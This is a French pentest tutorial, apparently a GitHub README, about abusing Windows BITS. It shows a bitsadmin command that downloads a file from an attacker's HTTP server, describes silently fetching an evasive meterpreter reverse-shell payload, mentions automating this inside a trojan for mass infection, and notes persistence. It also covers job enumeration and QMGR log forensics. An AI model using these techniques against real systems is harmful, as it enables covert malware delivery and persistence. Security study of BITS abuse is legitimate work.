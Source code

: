 ### Introduction à BITS : 

BITS veux dire Background Intelligent Transfer Service est un service très utilisé pour télécharger des fichiers à partir ou vers des serveurs Web HTTP et partage de fichier SMB. BITS est suffisamment autonome pour réduire un maximum les couts pour que se soit le plus optimisé possible pour l'utilisateur ou le programmeur car oui BITS peux aussi etre utile en programmation, BITS est programmable en C/C++ et peut etre appellé dans du .NET tout cela grace à COM.
BITS possède une version CLI qui s'appelle BitsAdmin et des commandes incluses dans le powershell. BITS peut etre utilisé pour de l'administration avec des systèmes de Logs depuis des actions comme /transfer ou les protocoles SANP ( protocoles de notification ) exemple : `SetNotifyFlag`. En pentest, BITS est très utilisé pour du EOAP ( Exfiltration over Alternative Protocol).
Utilisation de bitsadmin et analyse du traffics :

```powershell
bitsadmin /transfer howtohack http://192.168.1.45:8000/ak.txt "C:\Users\hth\Documents\ak.txt"
```

- **DISPLAY**: nom de job
- **FILE**: nombre de fichier
- **BYTES**: tailles du fichier "c le hack"
- **PRIORITY**: correspond à l'ordre de téléchargement
- **STATE**: Transféré, état du job.

on peux aussi l'utiliser avec le modules du PowerShell : `BitsTransfer`
```powershell
Import-Module BitsTransfer
```

BITS supporte par défaut le transfère asynchrone mais vous pouvez y précisez via l'argument `-Asychronous`, pour la validation du fichier il faut utiliser `Complete-BitsTransfer`.
Téléchargement d'un reverse shell meterpreter silencieusement : 

![image](https://user-images.githubusercontent.com/75935486/152225631-6de1bd82-5dc8-4ac3-b861-a73634d4fe45.png)

on lance le server HTTP et on télécharge la charge utile evasive via BITS en asynchrone. Dans un cadre de contamination en masse on peux rendre le téléchargement automatique en C ou C++ dans une tierce parti de Trojan, mais dans le cadre éducatif on reste dans des choses simple.


#### BITSAdmin enumeration : 

```powershell
# listé les jobs
bitsadmin /list
# avoir plus d'info sur un job
bitsadmin /info 482FCAF0-74BF-469B-8929-5CCD028C9499 /verbose
# géré les jobs actuels
bitsadmin /monitor
# un seul job à géré
bitsadmin /monitor 482FCAF0-74BF-469B-8929-5CCD028C9499
# info complète (Notify, Proxy, GUID...) sur tout les jobs actif :
bitsadmin /info
```

Logs BITS : `C:\Windows\System32\winevt\Logs\Microsoft-Windows-Bits-Client%4Operational`

![image](https://user-images.githubusercontent.com/75935486/152225800-497abaf1-1545-48b0-903e-9d87c51242f6.png)


#### BITS Enumeration depuis des requetes SC et depuis la db QMGR & ESE : 

QMGR signifie Querie Manager, il enregistre chaque activité de chaque BITS Job dans une base de données mais c'est chiffré, il faut utiliser hex editor ou autre editeur de base16 pour ésperer dump quelque chose.
ici ce qui nous interesse c'est QMGR.db car c'est que sont loggé les infos des BITS Job

![image](https://user-images.githubusercontent.com/75935486/152225890-df0b4a93-7476-4513-bd75-b470dc0752a3.png)

```json
> python BitsParser.py -i qmgr.db
Processing file qmgr.db
{
    "JobType": "download",
    "JobPriority": "normal",
    "JobState": "suspended",
    "JobId": "b733e5e1-12ad-463e-a125-ade26cc1fab6",
    "JobName": "SpeechModelDownloadJob",
    "OwnerSID": "S-1-5-20",
    "Owner": "NT AUTHORITY\\NETWORK SERVICE",
    "CreationTime": "2021-01-25T11:52:05Z",
    "ModifiedTime": "2021-01-25T12:45:21Z"
}
```

#### Pesistence avec BITS : 

élever la priorité de téléchargement. `/priority high`

Compromissions de Windows BITS:
- https://www.secureworks.com/blog/malware-lingers-with-bits

développement C++/C/.NET avec intégration de BITS : 
- https://docs.microsoft.com/en-us/windows/win32/bits/using-bits
